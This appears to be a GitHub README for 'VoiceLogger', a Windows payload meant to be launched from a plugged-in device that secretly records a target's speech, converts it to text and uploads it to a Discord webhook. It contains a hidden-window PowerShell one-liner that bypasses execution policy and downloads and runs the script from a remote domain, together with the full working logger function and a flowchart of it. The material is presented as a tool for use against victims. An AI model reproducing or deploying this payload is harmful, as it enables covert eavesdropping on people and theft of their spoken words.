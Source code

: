 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# VoiceLogger

## Description

This payload activates your target's microphone, converts their speech to text, and exfils it to Discord 
with the optional functionality of incorporating voice activated payloads.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your Discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='';irm MYDOMAIN.HERE/voiceLogger | iex
```

### The Function

- The voiceLogger function leverages the System.Speech namespace to create a continuous speech-to-text logger. 
- It initializes a speech recognition engine, loads a dictation grammar, and sets the input to the default audio device. 
- The script then enters an infinite loop where it listens for speech input and recognizes the text. 
- The recognized text is written to the output and saved to a temporary log file. 
- The log file content is then uploaded using the DC-Upload function. 
- Additionally, the script checks for specific voice commands using a switch statement with regex patterns: if the word "notepad" is detected, it launches Notepad, 
- and if the word "exit" is detected, it breaks the loop and stops the voice logger. 
- Once the loop is terminated, the log file's content is cleared.

```powershell
function voiceLogger {

    Add-Type -AssemblyName System.Speech
    $recognizer = New-Object System.Speech.Recognition.SpeechRecognitionEngine
    $grammar = New-Object System.Speech.Recognition.DictationGrammar
    $recognizer.LoadGrammar($grammar)
    $recognizer.SetInputToDefaultAudioDevice()

    while ($true) {
        $result = $recognizer.Recognize()
        if ($result) {
            $results = $result.Text
            Write-Output $results
            $log = "$env:tmp/VoiceLog.txt"
            echo $results > $log
            $text = get-content $log -raw
            DC-Upload $text

            # Use a switch statement with the $results variable
            switch -regex ($results) {
                '\bnotepad\b' {saps notepad}
                '\bexit\b' {exit}
            }
        }
    }
    Clear-Content -Path $log
}
```

```mermaid
graph TB;
  A[Start voiceLogger] --> B[Start Listening]
  B --> C{Recognized text?}
  C -->|Yes| D[Write to console]
  D --> E[Save to file]
  E --> F[Send to Discord]
  F --> G{Keyword recognized?}
  G -->|'note'| H[Open Notepad]
  G -->|'exit'| I[Exit function]
  G -->|No keyword| B
  C -->|No| B
  I --> J[Clear Log]
  J --> K[End voiceLogger]
```

##

## Contributing

All contributor's names will be listed here

M3!

##

